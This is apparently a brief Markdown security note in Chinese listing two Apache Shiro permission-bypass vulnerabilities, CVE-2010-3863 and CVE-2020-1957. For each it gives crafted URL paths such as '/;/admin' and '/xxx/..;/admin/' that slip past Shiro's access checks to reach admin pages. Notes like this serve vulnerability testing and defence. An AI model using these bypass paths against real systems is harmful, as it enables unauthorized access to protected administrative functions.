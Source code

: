 ## shiro
### CVE-2010-3863
shiro权限绕过,
如
`/./admin`,`/;/admin`等


### CVE-2020-1957
shiro权限绕过
`/xxx/..;/admin/`
